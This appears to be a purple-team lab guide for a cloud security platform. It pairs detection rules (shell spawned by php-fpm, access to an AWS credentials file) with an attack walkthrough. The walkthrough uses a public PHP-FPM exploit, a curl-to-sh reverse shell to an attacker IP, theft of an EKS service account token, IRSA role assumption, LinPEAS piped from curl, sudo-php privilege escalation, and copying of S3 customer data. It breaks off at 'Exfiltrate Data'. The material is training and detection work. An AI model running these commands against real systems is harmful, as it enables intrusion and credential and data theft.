 ## Chapter 1: Application Architecture

1. Evaluate the architecture of the applications and different weaknesses that we may want to monitor:

- [Link to graph query](https://app.wiz.io/explorer/graph#%7E%28queryTitle%7E%27Issue*20Evidence%7Equery%7E%28relationships%7E%28%7E%28type%7E%28%7E%28type%7E%27OWNS%29%29%7Ewith%7E%28relationships%7E%28%7E%28type%7E%28%7E%28type%7E%27ACTING_AS%29%29%7Ewith%7E%28relationships%7E%28%7E%28type%7E%28%7E%28reverse%7Etrue%7Etype%7E%27ASSIGNED_TO%29%29%7Ewith%7E%28relationships%7E%28%7E%28type%7E%28%7E%28type%7E%27PERMITS%29%29%7Ewith%7E%28select%7Etrue%7Etype%7E%28%7E%27ACCESS_ROLE%29%29%29%7E%28type%7E%28%7E%28type%7E%27APPLIES_TO%29%29%7Ewith%7E%28relationships%7E%28%7E%28type%7E%28%7E%28reverse%7Etrue%7Etype%7E%27ENTITLES%29%29%7Ewith%7E%28relationships%7E%28%7E%28type%7E%28%7E%28type%7E%27ALLOWS%29%29%7Ewith%7E%28select%7Etrue%7Etype%7E%28%7E%27ACCESS_ROLE_PERMISSION%29%29%29%7E%28type%7E%28%7E%28type%7E%27ALLOWS_ACCESS_TO%29%29%7Ewith%7E%28relationships%7E%28%7E%28type%7E%28%7E%28type%7E%27HAS_DATA_FINDING%29%29%7Ewith%7E%28select%7Etrue%7Etype%7E%28%7E%27DATA_FINDING%29%29%29%29%7Eselect%7Etrue%7Etype%7E%28%7E%27BUCKET%29%29%29%29%7Eselect%7Etrue%7Etype%7E%28%7E%27IAM_BINDING%29%29%29%29%7Eselect%7Etrue%7Etype%7E%28%7E%27SERVICE_ACCOUNT%29%29%29%29%7Eselect%7Etrue%7Etype%7E%28%7E%27ACCESS_ROLE_BINDING%29%29%29%29%7Eselect%7Etrue%7Etype%7E%28%7E%27SERVICE_ACCOUNT%29%29%29%7E%28type%7E%28%7E%28type%7E%27CONTAINS%29%29%7Ewith%7E%28type%7E%28%7E%27CONTAINER%29%7Eselect%7Etrue%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27INSTANCE_OF%29%29%7Ewith%7E%28type%7E%28%7E%27CONTAINER_IMAGE%29%7Eselect%7Etrue%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27ALERTED_ON%7Ereverse%7Etrue%29%29%7Ewith%7E%28select%7Etrue%7EblockName%7E%27Has*20vulnerabilities%7Etype%7E%28%7E%27SECURITY_TOOL_FINDING%29%7Ewhere%7E%28severity%7E%28EQUALS%7E%28%7E%27VulnerabilitySeverityCritical%7E%27VulnerabilitySeverityHigh%7E%27VulnerabilitySeverityMedium%7E%27VulnerabilitySeverityLow%29%29%29%7EblockExpanded%7Etrue%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27CAUSES%7Ereverse%7Etrue%29%29%7Ewith%7E%28type%7E%28%7E%27VULNERABILITY%29%29%29%29%29%29%7E%28type%7E%28%7E%28type%7E%27CONTAINS%29%29%7Ewith%7E%28type%7E%28%7E%27SECRET_INSTANCE%29%7Eselect%7Etrue%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27INSTANCE_OF%29%29%7Ewith%7E%28type%7E%28%7E%27SECRET_DATA%29%7Eselect%7Etrue%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27PERMITS%29%29%7Ewith%7E%28type%7E%28%7E%27USER_ACCOUNT%29%7Eselect%7Etrue%29%29%29%29%29%29%29%29%29%29%29%29%29%29%29%7Eselect%7Etrue%7Etype%7E%28%7E%27POD%29%29%29%7E%28type%7E%28%7E%28reverse%7Etrue%7Etype%7E%27CONTAINS%29%29%7Ewith%7E%28relationships%7E%28%7E%28type%7E%28%7E%28type%7E%27CONTAINS%29%29%7Ewith%7E%28select%7Etrue%7Etype%7E%28%7E%27KUBERNETES_CLUSTER%29%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27CONTAINS%29%29%7Ewith%7E%28type%7E%28%7E%27DEPLOYMENT%29%7Eselect%7Etrue%7Ewhere%7E%28name%7E%28CONTAINS%7E%28%7E%27nginx%29%29%29%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27OWNS%29%29%7Ewith%7E%28type%7E%28%7E%27POD%29%7Eselect%7Etrue%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27CONTAINS%29%29%7Ewith%7E%28type%7E%28%7E%27CONTAINER%29%7Eselect%7Etrue%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27INSTANCE_OF%29%29%7Ewith%7E%28type%7E%28%7E%27CONTAINER_IMAGE%29%7Eselect%7Etrue%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27ALERTED_ON%7Ereverse%7Etrue%29%29%7Ewith%7E%28type%7E%28%7E%27SECURITY_TOOL_FINDING%29%7Eselect%7Etrue%29%29%29%29%29%29%29%29%29%29%29%29%29%29%29%29%29%7E%28type%7E%28%7E%28type%7E%27CONTAINS%29%29%7Ewith%7E%28relationships%7E%28%7E%28type%7E%28%7E%28type%7E%27INSTANCE_OF%29%29%7Ewith%7E%28relationships%7E%28%7E%28type%7E%28%7E%28reverse%7Etrue%7Etype%7E%27ALERTED_ON%29%29%7Ewith%7E%28relationships%7E%28%7E%28type%7E%28%7E%28reverse%7Etrue%7Etype%7E%27CAUSES%29%29%7Ewith%7E%28type%7E%28%7E%27VULNERABILITY%29%29%29%29%7Eselect%7Etrue%7Etype%7E%28%7E%27SECURITY_TOOL_FINDING%29%7Ewhere%7E%28severity%7E%28EQUALS%7E%28%7E%27VulnerabilitySeverityCritical%7E%27VulnerabilitySeverityHigh%29%29%29%29%29%29%7Eselect%7Etrue%7Etype%7E%28%7E%27CONTAINER_IMAGE%29%29%29%29%7Eselect%7Etrue%7Etype%7E%28%7E%27CONTAINER%29%29%29%29%7Eselect%7Etrue%7Etype%7E%28%7E%27SUBSCRIPTION%29%29%29%29%7Eselect%7Etrue%7Etype%7E%28%7E%27DEPLOYMENT%29%7Ewhere%7E%28name%7E%28CONTAINS%7E%28%7E%27php%29%29%29%29%7Elayers%7E%28%7E%27issues%7E%27public_exposure%7E%27lateral_movement%29%7Eview%7E%27graph%29)

## Chapter 2: Detection Engineering

1. Setup Threat Detection Rule to monitor for a shell spawned from the potentially exploited PHP web app:

- Go to `Policies > Threat Detection Rules > Create Rule`
- **Rule Type:** Workload Runtime Rule
- **Name:** Shell executed from php-fpm or php container
- **Description:**
  - The purpose of this threat detection rule is to detect a shell spawned by the vulnerable php web app
- **Severity:** High
- **Event Type:** Process Execution
  - **Process Names:** `dash` `bash` `sh`
- **Actor > + Add Actor**
  - **Process Names:** `php` `php-fpm`
  - **Container Names:** `php`
- **Create Rule**

3. Setup Runtime FIM Rule to monitor for any access of the high privilege AWS credentials that are stored on the container image:

- Go to `Policies > Threat Detection Rules > Create Rule`
- **Rule Type:** FIM Rule
- **Name:** Highly privileged AWS credentials file accessed
- **Description:**
- **Severity:** Medium
- **Detection Method:** Runtime FIM
  - Note: Agentless FIM can detect Creation, Deletion, and Modification between agentless scans. However, it cannot detect Open and Permissions Changes, as well as realtime Creation, Deletion, and Modification. Therefore, we are using Runtime FIM only in this case.
- **Monitoring Conditions:**
  - **Directory Paths:** `/root/.aws/`
  - **Include:** `credentials`
  - **Attributes:** Open
  - **Coverage:** Both host and container file systems
- **Create Rule**

## Chapter 3: Purple Team Exercise

![Alt text](../diagrams/images/attack-overview.png)

1. Navigate to the web app in the browser and leave the session open:

- [http://${APP_URL}/index.php](http://${APP_URL}/index.php)

2. Login to attacker box, download public exploit and run it:

```sh
chmod 400 attacker.pem
ssh -i attacker.pem ec2-user@${ATTACKER_IPV4}
go install github.com/neex/phuip-fpizdam@latest
cd ~/go/bin
./phuip-fpizdam http://${APP_URL}/index.php
```

3. Test Shell in Browser:

- Add `?` to the end of the URL in the browser
- Add `a=id`
- Press Enter / Return

  ***

  **NOTE**

  You may have to press enter / return twice in order for the shell to execute.
  The full URL should look like this: http://${APP_URL}/index.php?a=id

  ***

4. Start netcat on Attacker Box:

```sh
nc -lv 1337
```

5. Test Reverse Shell:

- After the `?`, replace `a=id` with:
  - `curl -k https://reverse-shell.sh/${ATTACKER_IPV4}:1337 | sh`

6. In Reverse Shell, run the following commands:\*\*

- **User on container host:**

  - `whoami`

  - **Confirm which host you are on:**

  - `uname -a`

- **Validate IRSA (IAM Role for Service Accounts) Access:**

  Identify the EKS service account token

  ```sh
  cat /var/run/secrets/eks.amazonaws.com/serviceaccount/token
  ```

  Break up the JSON Web Token (JWT) into it's parts

  ```sh
  jwt=$(cat /var/run/secrets/eks.amazonaws.com/serviceaccount/token)
  header=$(echo "$jwt" | cut -d '.' -f1)
  payload=$(echo "$jwt" | cut -d '.' -f2)
  signature=$(echo "$jwt" | cut -d '.' -f3)

  printf "Header:\n"
  printf "%s" "$header" | tr '_-' '/+' | base64 -d 2>/dev/null || printf "Decoding error\n"
  printf "\nPayload:\n"
  printf "%s" "$payload" | tr '_-' '/+' | base64 -d 2>/dev/null || printf "Decoding error\n"
  printf "\nSignature (Base64):\n%s\n" "$signature"
  ```

  Assume Role with the IRSA

  ```sh
  RESPONSE=$(aws sts assume-role-with-web-identity --role-arn "${IRSA_ROLE}" --role-session-name "attacker-session" --web-identity-token file:///var/run/secrets/eks.amazonaws.com/serviceaccount/token --output json)
  ```

  Validate the active session

  ```sh
  echo $RESPONSE | jq .
  ```

  Set the environment variables

  ```sh
  export AWS_ACCESS_KEY_ID=$(echo $RESPONSE | jq -r '.Credentials.AccessKeyId');
  export AWS_SECRET_ACCESS_KEY=$(echo $RESPONSE | jq -r '.Credentials.SecretAccessKey');
  export AWS_SESSION_TOKEN=$(echo $RESPONSE | jq -r '.Credentials.SessionToken')
  ```

  Confirm access through session

  ```sh
  aws sts get-caller-identity
  ```

7. List buckets:

- `aws s3 ls`
- `aws s3 ls ${WEB_BUCKET}`
- `aws s3 cp s3://${WEB_BUCKET} /tmp --recursive`

8. Validate the contexts of the file

- `cat /tmp/image.png`

9. Access other credentials file:

   - `cat /root/.aws/credentials/`

10. Test LinPEAS over reverse shell:

- `curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh > linpeas.sh`
- **Can I write anywhere?:**
  - `tmp`
- **What if I run it directly from memory?:**
  - `curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh`

11. Use php to escalate privileges:

- GTFObin
  ```sh
  CMD="/bin/bash"
  sudo php -r "system('\$\CMD');"
  ```

12. Validate that you were able to escalate privileges to root:

- `whoami`

13. Access credentials file:

- `cat /root/.aws/credentials`

14. Use credentials to access AWS

- `aws sts get-caller-identity`

15. List Buckets and Objects

    - `aws s3 ls`
    - `aws s3 ls ${CUSTOMER_BUCKET}`

16. Stage Data

    - `aws s3 cp s3://${CUSTOMER_BUCKET} ./ --recursive`

17. Exfiltrate Data
